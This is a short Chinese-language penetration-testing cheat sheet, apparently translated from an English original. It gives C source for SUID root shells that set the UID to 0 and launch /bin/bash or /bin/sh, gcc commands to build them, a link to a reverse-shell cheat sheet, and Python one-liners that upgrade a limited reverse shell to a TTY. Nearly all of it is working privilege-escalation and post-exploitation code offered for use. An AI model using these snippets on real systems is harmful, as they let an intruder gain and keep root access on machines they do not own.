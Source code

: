 ## SUID 二进制

通常具有SUID的 C二进制文件要求以超级用户登陆shell，您可以按需更新UID / GID和shell。

下面是一些可用的shell：

### 运行 /bin/bash的SUID C Shell

```
int main(void){
       setresuid(0, 0, 0);
       system("/bin/bash");
}       
```

### 运行 /bin/sh的SUID C Shell

```
int main(void){
       setresuid(0, 0, 0);
       system("/bin/sh");
}       
```

### 构建 SUID Shell 二进制

```
gcc -o suid suid.c  
```

32位

```
gcc -m32 -o suid suid.c  
```

## 反向Shells

参考 [反向 Shell 速查表](https://highon.coffee/blog/reverse-shell-cheat-sheet/) 。

## TTY Shells

Tips / Tricks to spawn a TTY shell from a limited shell in Linux, useful for running commands like `su` from reverse shells.

一些模拟出TTY终端窗口以突破shell限制的技巧，便于从反向shell上执行类似 `su` 的特殊命令。

### 用Python模拟 TTY Shell的技巧

```
python -c 'import pty;pty.spawn("/bin/bash")'
```

```
echo os.system('/bin/bash')
```
